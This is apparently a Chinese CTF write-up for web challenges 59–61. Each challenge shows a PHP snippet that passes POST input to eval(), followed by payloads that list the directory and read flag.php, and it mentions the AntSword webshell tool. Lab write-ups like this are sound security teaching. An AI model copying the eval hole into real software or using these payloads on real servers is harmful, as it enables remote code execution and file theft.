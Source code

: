 #### web59

```php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}

```

##### 方法一：剑蚁

##### 方法二：读取文件函数进行读取flag

**payload**

```
c=print_r(scandir(dirname('__FILE__')));

c=highlight_file("flag.php");
```

------

#### web60

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname('__FILE__')));

c=highlight_file("flag.php");
```

------

#### web61

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname('__FILE__')));

c=highlight_file("flag.php");
```
